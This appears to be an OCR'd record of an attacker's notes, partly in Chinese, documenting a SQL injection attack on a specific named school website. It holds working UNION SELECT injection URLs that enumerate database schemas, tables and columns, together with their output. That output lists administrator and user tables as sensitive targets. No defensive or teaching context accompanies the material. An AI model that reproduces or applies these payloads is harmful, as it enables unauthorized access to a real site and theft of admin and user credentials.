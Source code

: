 	jx_spider_rule
	jx_spider_url
	jx_updatehtml

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(distinct(table_name))%20from%20information_schema.tables%20where%20table_schema=0x71636D73)%20--

	qcms中的所有表

	qcms_admin
	qcms_bq
	qcms_buy
	qcms_category
	qcms_discuss
	qcms_diy
	qcms_guest
	qcms_jss
	qcms_news
	qcms_olink
	qcms_persons
	qcms_plus
	qcms_system
	qcms_users

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(distinct(table_name))%20from%20information_schema.tables%20where%20table_schema=0x71637373)%20--

	qcss中的所有表

	qcms_cate
	qcms_ext
	qcms_file
	qcms_form
	qcms_forminfo
	qcms_guest
	qcms_module
	qcms_money
	qcms_news
	qcms_order
	qcms_pic
	qcms_sys
	qcms_user


总共存在以下几个敏感表:

	duxcms.dc_admin 
	qcms.qcms_admin 
	qcms.qcms_users;
	qcss.qcms_user 

	http://www.dyyz.net.cn/celebrate/view.php?id=251%20and%201=2%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,(select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=0x647578636D73%20and%20table_name=0x64635F61646D696E)%20--
